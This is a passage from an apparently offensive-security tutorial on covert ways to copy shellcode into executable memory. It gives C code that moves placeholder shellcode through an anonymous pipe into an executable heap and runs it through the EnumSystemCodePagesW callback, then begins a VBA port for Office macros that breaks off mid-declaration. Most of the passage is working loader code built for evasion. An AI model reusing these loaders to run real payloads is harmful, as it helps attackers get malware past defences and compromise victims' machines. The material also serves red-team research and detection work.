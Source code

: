 ```c
}
```

Test it:

<figure>
<img src="/alternatives-copy-shellcode/two-shots.png" alt="Shellcode copied using a Set/Get pair">
<figcaption>
Shellcode copied using a Set/Get pair.
</figcaption>
</figure>


Also IPC mechanisms can fall into our "two-shots" category. For example, we can create an anonymous pipe to use it as *no man's place* and call `WriteFile`/`ReadFile` to copy the shellcode:

```c
#include <Windows.h>

int main(int argc, char** argv) {
	LPCSTR orig_shellcode = "\xcc\xcc\xcc\xcc";
	LPSTR copied_shellcode = NULL;
	HANDLE heap = NULL;
	HANDLE source = NULL;
	HANDLE sink = NULL;
	SECURITY_ATTRIBUTES saAttr;
	DWORD size = 0;

	heap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
	copied_shellcode = HeapAlloc(heap, 0, 0x10);

	saAttr.nLength = sizeof(SECURITY_ATTRIBUTES);
	saAttr.bInheritHandle = TRUE;
	saAttr.lpSecurityDescriptor = NULL;

	CreatePipe(&sink, &source, &saAttr, 0);
	WriteFile(source, orig_shellcode, 4, &size, NULL);
	ReadFile(sink, copied_shellcode, 4, &size, NULL);

	EnumSystemCodePagesW(copied_shellcode, 0);
	return 0;
}
```

It can be translated to VBA as:

```vb
Private Declare PtrSafe Function HeapCreate Lib "kernel32" (ByVal flOptions As Long, ByVal dwInitialSize As LongPtr, ByVal dwMaximumSize As LongPtr) As LongPtr
Private Declare PtrSafe Function HeapAlloc Lib "kernel32" (ByVal hHeap As LongPtr, ByVal dwFlags As Long, ByVal dwBytes As LongPtr) As LongPtr
Private Declare PtrSafe Function EnumSystemCodePagesW Lib "kernel32" (ByVal lpCodePageEnumProc As LongPtr, ByVal dwFlags As Long) As Long
Private Declare PtrSafe Function CreatePipe Lib "kernel32" (phReadPipe As LongPtr, phWritePipe As LongPtr, lpPipeAttributes As SECURITY_ATTRIBUTES, ByVal nSize As Long) As Long
Private Declare PtrSafe Function ReadFile Lib "kernel32" (ByVal hFile As LongPtr, ByVal lpBuffer As LongPtr, ByVal nNumberOfBytesToRead As Long, lpNumberOfBytesRead As Long, lpOverlapped As Long) As Long
Private Declare PtrSafe Function WriteFile Lib "kernel32" (ByVal hFile As LongPtr, ByVal lpBuffer As LongPtr, ByVal nNumberOfBytesToWrite As Long, lpNumberOfBytesWritten As Long, lpOverlapped As Long) As Long


Private Type SECURITY_ATTRIBUTES
        nLength As Long
        lpSecurityDescriptor As LongPtr
```